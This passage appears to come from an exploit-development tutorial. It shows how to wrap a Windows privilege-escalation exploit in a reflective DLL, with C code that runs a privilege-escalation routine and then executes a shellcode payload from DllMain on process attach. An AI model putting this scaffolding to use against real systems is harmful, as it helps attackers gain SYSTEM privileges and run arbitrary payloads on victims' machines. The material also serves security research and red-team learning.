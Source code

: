 When you copy the RefelctiveDLL code into your project, you are going to replace your `DllMain` file with the `ReflectiveDll.c` file.  Include the header file containing your desired entry point so that when `DllMain` gets launched, it can find your desired entry point.

I also noticed and appreciated that others structured the code into two parts: Exploit and Exploiter.  Exploiter does the heavy lifting with functions, and Exploit calls the functions and runs the shellcode after the exploit completes.  For example, I made a privesc and the code required to accomplish the elevation was bundled in a function called `PrivEsc` contained within my `Exploiter.cpp` file.  The Exploit file was very simple in comparison:

```c
#include <Windows.h>
#include "Exploit.h"
#include "Exploiter.h"

static VOID ExecutePayload(LPVOID lpPayload)
{
  VOID(*lpCode)() = (VOID(*)())lpPayload;
  lpCode();
  return;
}

VOID Exploit(LPVOID lpPayload)
{
  PrivEsc();
  ExecutePayload(lpPayload);
}
```

That `ExecutePayload` function is there to... well.... Execute the payload.  We'll talk about it later, but make sure that you have it accepting a pointer and executing it.  That'll be how we get a payload into the running thread.

All the `Exploit.cpp` needs to do is give a clear way for me to run the code I wanted to get system, then call the function responsible for starting the shellcode.  In my case, all I needed to do was to somehow run `PrivEsc` and then `ExecutePayload(pPayload)`.

Sure enough, if you check out the `ReflectiveDll.c` file, you can see that it is really straightforward and should look a lot like your previous `DllMain` function, except there's a function call in `DLL_PROCESS_ATTACH`:

```c
#include "ReflectiveLoader.h"
#include "Exploit.h"

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD dwReason, LPVOID lpReserved)
{
  BOOL bReturnValue = TRUE;
  switch (dwReason) {
    case DLL_QUERY_HMODULE:
      if (lpReserved != NULL)
        *(HMODULE *)lpReserved = hAppInstance;
      break;
    case DLL_PROCESS_ATTACH:
      hAppInstance = hinstDLL;
      // MessageBox(0, "In DLLMain", "Status", MB_OK);
      Exploit(lpReserved);
      break;
    case DLL_PROCESS_DETACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
      break;
  }
  return bReturnValue;
}
```
